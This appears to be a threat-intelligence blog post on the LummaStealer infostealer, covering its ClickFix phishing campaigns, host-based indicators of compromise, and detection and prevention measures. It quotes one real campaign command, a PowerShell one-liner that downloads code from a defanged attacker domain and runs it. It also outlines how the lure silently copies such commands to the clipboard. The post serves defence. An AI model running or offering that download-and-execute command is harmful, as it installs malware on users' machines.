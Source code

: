 ```yaml
---
layout: post
title:  "LummaStealer"
date:   2025-06-16 21:00:00 +1000
categories: threat intel
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

LummaStealer C++ prominent in-memory infostealer. Malware-as-a-service operation developed by "Shamel".

Lumma has been prominent since 2022 when it first appeared for sale. Up until May 2025 it has been smooth sailing. In May Microsoft blocked 2,300 domains related to Lumma's infra. Furthermore the DOJ seized Lumma's control panel. Microsoft identified that over 390,000 Windows host we're compromised at the time of the blocking. 

Perhaps Lumma's best feature. Is the ability for anyone and everyone to purchase logs that are stolen. So you buy Lumma and you have a direct place to steal the stolen logs. All you have to do is get it on a host in the first place.

(INSERT SCREENSHOT)

### LummaStealer Recent Campaigns
Clickfix is the new phishing. Recent Lumma campaigns have compromised websites and injected malicious code that instructs users to run commands on there host.


An example of a clickfix command used in an actual Lumma campaign is the following
```iwr ct-humancheck[.]info|iex```
Breakdown of flags
- iwr (Invoke Web Request)
- iex (Invoke Expression). Means run code from the prior argument (domain)

Now this paired with a clickfix lure like this

(INSERT SCREENSHOT)

Would be pretty darn tempting. Especially if you we're perhaps paying for something/booking a table/accessing a website. You are just verifying you are human. Right?

The snazzy part about clickfix attacks is that the malicious .js embedded in the website can silently copy commands to your hosts clipboard.

- Function copyToClipboard copies specified command to hosts clipboard
- EventListener triggers copyToClipboard function when user clicks on the page

(INSERT SCREENSHOT)

### LummaStealer IOCs (22nd July 2025)
As LummaStealer is malware-as-a-service each group/individual that purchases Lumma will have there own ways for distributing the software. However, despite this there are some clear initial access TTPs that are consistent with Lumma. Furthermore, Lumma's behaviour when executed is also quite consistent. Although files created may be randomly generated with different hashes and IOCs are unscanned. The processes it chooses to inject in and the directories that it creates files are the same.

Additionally. What makes Lumma and other MaaS operations so expensive is that they guarantee that hash is unrecognisable. Therefore, IOCs are unique to the campaign and quite often the machine. Infrastructure is also provided by Lumma. There are dedicated Lumma C2 servers that people who purchase the malware use to communicate with hosts. These are regularly changing and are managed by Lumma. Because of this, maintaining an updated list of Lumma C2 IOCs is vitally important. Furthermore, creating YARA rules that detect this is even better.

Lastly I'll add that going back and tracking old malware analysis samples and reports for Lumma I observed that the behaviour of the malware changes a lot. Calls different dlls, Windows APIs and uses different compilers. So whilst this might be relevant now, in a day it may not be.

Off track but a person at Mandiant told me they have observed APTs regularly querying VirusTotal to check whether a hash been scanned. As it's often the first step to an investigation, it's a great way to determine whether you've been detected in an environment.

Although Network IOCs are unique to each campaign, I'll still add them in. I'm not certain, but I'm highly confident Lumma would shuffle these regularly.

Host-based IOCs
- Tasklist
- Findstr
- Process injection (Particularly svchost.exe and explorer.exe)
- Masquerading as powershell (e.g. exp.exe)
- Cvtres.exe creating malicious .tmps from the Temp directory in binary code (AppData\Local\Temp)
- Creation of randomly named .exe in Temp directory (Windows\Temp)
- Csc.exe creating malicious .dlls from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe executing suspicious .cmdline files from the Temp directory (AppData\Local\Temp)
- Startup folder persistence (AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\App.url)

Here's a list of Lumma Network IOCs from May 2025 provided by Bitsight.
(Bitsight Lumma Stealer Network IOCs)[https://raw.githubusercontent.com/bitsight-research/threat_research/refs/heads/main/lumma/lumma_iocs.csv]

### Data Exfilitration and C2 Channels
Telegram channels.

### How to detect Lumma?
Search for initial access TTPs.
- Clipboard events in EDR logs. Modern EDRs will record these events and often the process that copied to clipboard. 
- Git repos that users have pulled. Process creation events as a result of the command ```git pull``` and ```git clone```. Sort by repo. Biggest to smallest.

But having said all that. Here is some basic techniques to apply to an enterprise network to help detect/prevent Lumma. And all decent malware to be honest.
- SIEM alert for newly registered domains
- SIEM alert for process injection
- SIEM alert for abnormal processes reaching out to external domains
- SIEM alert for abnormal startup processes/reg keys
- Disable powershell for non-administrative users
- Do not whitelist password manager browser extensions
- Disable auto-saving passwords in browser
- Disable downloading exectuables from untrusted websites
- Application whitelisting
- Deploy EDR tools with behavioural analysis capabilities
- Educate users on clickfix attacks and malvertising
- Deploy BDR solution (SquareX)
